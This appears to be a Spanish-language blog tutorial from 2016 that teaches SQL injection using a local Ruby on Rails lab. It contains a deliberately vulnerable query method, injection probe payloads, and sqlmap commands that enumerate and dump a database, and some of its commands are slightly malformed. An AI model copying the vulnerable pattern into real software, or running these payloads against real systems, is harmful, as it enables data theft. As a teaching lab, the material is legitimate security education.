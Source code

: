 ```yaml
---
layout: post
title:  "SQL Inyection On Rails"
date:   2016-04-26 00:37:19 -0300
categories: jekyll update
---
```

El siguiente laboratorio tiene como objetivo comprender uno de los ataque más populares en aplicaciones web, Inyección SQL, como muchos sabrán una inyección sql tiene como objetivo hacer consultas a la base de datos mediante la manipulación de los parámetros evitando la autorización del administrador,pudiendo obtener la manipulación y extracción de datos confidenciales que pueden comprometer el modelo de negocio de la compañía.

A continuación vamos a crear una aplicación en Ruby on Rails:

```
rails new My-Application
```
Para este ejemplo crearemos un modelo para el usuario con un atributo name:string

```
rails g model user name:string
```

Además agregaremos un método,cuya función será buscar usuarios por el atributo name.
{% highlight ruby %}
def search(params)
 User.where("name LIKE '#{params}'")
end
{% endhighlight %}

Ahora que ya creamos nuestro primer método vulnerable, vamos a descubrir vulnerabilidad, para ello podemos realizar las siguientes pruebas:

```
localhost:3000/search/1 and 1 = 1 --
localhost:3000/search/1 and sleep(10)
sqlmap -u = “localhost:3000/tests/*” --dbms=”SQLite” --risk=”3” --level= “5”
```

Si un usuario malicioso entra ' OR 1 -- , la consulta SQL resultante será :
```
SELECT * FROM users WHERE name = '' OR 1 --'
```

Explotamos vulnerabilidad

```
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --tables
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 -T inyections --dump -v 3
```

